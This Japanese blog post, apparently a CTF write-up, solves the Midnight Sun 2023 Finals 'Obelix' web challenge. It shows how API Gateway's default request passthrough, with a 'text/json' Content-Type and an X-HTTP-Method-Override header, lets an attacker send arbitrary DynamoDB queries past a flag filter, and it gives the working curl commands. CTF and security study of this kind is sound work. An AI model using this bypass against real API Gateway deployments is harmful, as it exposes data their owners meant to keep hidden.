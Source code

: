 ```yaml
---
title: "Midnight Sun CTF 2023 Finals - Obelix"
date: 2023-09-03T00:00:00Z
type: post
---
```


Midnight Sun CTF 2023 の Finals に参加してきました。

ストックホルムに行ったので色々と観光して回ったのですが、それはまた気分が乗ったら書こうと思います。

総じて楽しい CTF だったのですが、Web カテゴリの問題で「Obelix」という問題が面白かったので紹介します。

問題内容としては以下の CloudFormation のファイルが配布されて、DynamoDB からフラグを取ってこいというもの。

配布ファイル: <https://gist.github.com/tyage/cf1d2221720776ce3c5562e14189b732>

ファイルからは DynamoDB のテーブル定義の他、DynamoDB にクエリを投げることのできる API Gateway が確認できます。

外部からアクセスできる API としては `/prod/movies/:moviename` でアクセスできる `MovieNameMethodGet` がありますが、DynamoDB に送信するクエリを定義した RequestTemplates には FLAG の一部である「midnight」を含むデータが出力されないようなフィルターが設定されています。

```yaml
MovieNameMethodGet:
  Type: "AWS::ApiGateway::Method"
  Properties:
    RestApiId: !Ref Api
    ResourceId: !Ref MovieNameResource
    HttpMethod: GET
    ApiKeyRequired: false
    AuthorizationType: NONE
    RequestParameters:
      method.request.path.moviename: true
    Integration:
      Type: AWS
      Credentials: !GetAtt APIGatewayRole.Arn
      IntegrationHttpMethod: POST
      Uri: !Sub "arn:aws:apigateway:${AWS::Region}:dynamodb:action/Query"
      RequestParameters:
        integration.request.path.moviename: method.request.path.moviename
      RequestTemplates:
        application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
      IntegrationResponses:
        - StatusCode: "200"
          ResponseParameters:
            method.response.header.Access-Control-Allow-Methods: "'GET,OPTIONS'"
            method.response.header.Access-Control-Allow-Origin: "'*'"
    MethodResponses:
      - StatusCode: "200"
        ResponseParameters:
          method.response.header.Access-Control-Allow-Methods: false
          method.response.header.Access-Control-Allow-Origin: false
```

そのため、API を叩いて見ても FLAG らしい文字列は出力されません。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers

{"Count":1,"Items":[{"director":{"S":"Iain Softley"},"moviename":{"S":"hackers"},"image":{"S":"https://static.wikia.nocookie.net/soundeffects/images/b/b6/Hackers_%281995%29.jpg/revision/latest?cb=20200220043404"},"movielength":{"S":"107"},"posterpos":{"S":"0% 21%"},"year":{"S":"1995"},"description":{"S":"In 1988, Dade 'Zero Cool' Murphy (age 11) is arrested and charged with crashing 1,507 systems in one day and causing a single-day 7-point drop in the New York Stock Exchange. Upon conviction, he is banned from owning or operating computers or touch-tone telephones until his 18th birthday."},"id":{"S":"J0C63G8DCYcF6MA="},"color":{"S":"#a50000b3"}}],"ScannedCount":2}
```

この時点で API Gateway をよく知っている人なら問題に気づくのかなとも思うのですが、私はよく分からなかったのでとりあえずデプロイして試してみることにしました。
API Gateway の `MovieNameMethodGet` リソースの Integration Request セクションを眺めてみたところ、`All request bodies will be passed through to the integration endpoint.` という警告が表示されていることに気づきました。

![screenshot1.png](./screenshot1.png)

要は、テンプレートで定義されていない Content-Type のリクエストが送信されると、リクエストがそのまま DynamoDB に送信されてしまうようなのです。
また、画面上では警告しているものの、この設定はデフォルトの設定なので CloudFormation ファイル上には関連する内容の記載がありません。

[Integration passthrough behaviors - Amazon API Gateway](https://docs.aws.amazon.com/apigateway/latest/developerguide/integration-passthrough-behaviors.html)

今回は `application/json` 以外の Content-Type が利用できるので、`Content-Type: text/json` を設定することで任意のクエリを DynamoDB 送りつけることが可能です。

ここまでくればほぼ解けたようなものなのですがもう少しだけやることがあります。
`MovieNameMethodGet` は GET メソッドしか受け付けていないため、GET のままリクエストボディを設定する必要があるのですが、素直にそれをやると怒られてしまいます。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -X GET -H 'Content-Type: text/json'  --data '{}'

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML><HEAD><META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=iso-8859-1">
<TITLE>ERROR: The request could not be satisfied</TITLE>
</HEAD><BODY>
<H1>403 ERROR</H1>
<H2>The request could not be satisfied.</H2>
...
```

こういったときは `X-HTTP-Method-Override` が便利ですよね。
(あのヘッダの名前なんだったっけな～と思い出そうとしていたら icchy がシュッと答えてくれた。)
これで CloudFront に怒られずにリクエストボディを設定することができ、無事に FLAG を得ることができました。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'

{"Count":2,"Items":[{"director":{"S":"Iain Softley"},"moviename":{"S":"hackers"},"image":{"S":"https://static.wikia.nocookie.net/soundeffects/images/b/b6/Hackers_%281995%29.jpg/revision/latest?cb=20200220043404"},"movielength":{"S":"107"},"posterpos":{"S":"0% 21%"},"year":{"S":"1995"},"description":{"S":"In 1988, Dade 'Zero Cool' Murphy (age 11) is arrested and charged with crashing 1,507 systems in one day and causing a single-day 7-point drop in the New York Stock Exchange. Upon conviction, he is banned from owning or operating computers or touch-tone telephones until his 18th birthday."},"id":{"S":"J0C63G8DCYcF6MA="},"color":{"S":"#a50000b3"}},{"director":{"S":"avlidienbrunn"},"moviename":{"S":"hackers"},"image":{"S":"avlidienbrunn"},"movielength":{"S":"1337"},"posterpos":{"S":"0% 0%"},"year":{"S":"1337"},"description":{"S":"midnight{wh4t_t3h_fr1CK_h0w_d1d_j00_r33d_th@t_1_HaD_a_fILTer???}"},"id":{"S":"J0C69FonCYcFlNA="},"color":{"S":"#ffffff"}}],"ScannedCount":2}
```

FLAG: `midnight{wh4t_t3h_fr1CK_h0w_d1d_j00_r33d_th@t_1_HaD_a_fILTer???}`

API Gateway をフィルタ代わりに利用するとこういう問題が起きるというのは知らなかったので素直に勉強になりました。

ちなみにこの問題はなかなか解くチームが現れず、しばらく誰も解けなかったらヒントが出されると予告されていたのですが、ヒントが出される前に一番乗りで解くことができたのでよかったです。
(最終的に解けたのは 15 チーム中 3 チームでした。)

